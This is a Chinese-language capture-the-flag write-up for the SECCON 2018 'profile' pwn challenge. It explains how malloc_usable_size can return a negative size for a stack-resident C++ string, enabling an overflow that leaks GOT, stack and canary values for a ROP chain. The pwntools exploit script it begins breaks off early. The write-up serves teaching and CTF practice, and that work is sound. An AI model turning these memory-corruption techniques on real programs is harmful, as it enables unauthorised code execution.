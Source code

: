 ```
// file
profile: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=80d81e528f97618c35e57b145a0c11df21769e67, not stripped

// checksec
[*] '/tmp/tmp/SECCON2018_online_CTF/Pwn/profile/files/profile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

c++ 中 string 的結構為:

- 0x0 ~ 0x8: `c_str` pointer，當長度小的時候指向 stack，長度大的時候指向 heap
- 0x8 ~ 0x10: string length
- 0x10 ~ 0x18: 根據字串長度，匯市 `c_str` value 或是 string length
- 0x18 ~ 0x20: garbage

以下為 `malloc_usable_size()` 的 source code:

```c
static size_t
musable (void *mem)
{
...
	else if (inuse (p))
        return chunksize (p) - SIZE_SZ;
...
}

size_t
__malloc_usable_size (void *m)
{
  size_t result;

  result = musable (m);
  return result;
}
```

如果 string 的 c_str 位置在 stack，`malloc_usable_size()` 有可能會回傳一個負數，讓 `getn()` 可以 overwrite，而先決條件為:

1. size 的 LSB 的要是 1，代表 chunk inuse，就能通過 `inuse(p)` 的檢查
2. chunksize 不能大於 8，這樣在減 `SIZE_SZ` 時就會小於 0 造成 overflow

透過 overflow 從 `message` 蓋到寫到 string `name`  的 struct，並更改 `name` 的 `c_str` pointer 成 got 等等可以 leak 的 address。而 canary 與 stack address 會稍微用 brute force 的方法，並且由於 stack 的後面一個 byte 不固定，因此需要找固定的值 (這邊為 'AAAAAAAA') 來確定在 stack 內的 offset，再透過相鄰的 address 來 leak stack、canary。最後串 ROP 就可以了。

```python
#!/usr/bin/python3
 
from pwn import *
import sys
 
_stdout_got = 0x602348
 
r = process("./profile")
r.sendlineafter('Name >> ', 'A'*8)
r.sendlineafter('Age >> ', '2')
r.sendlineafter('Message >> ', 'M')
 
##### leak stack
stack = 0
```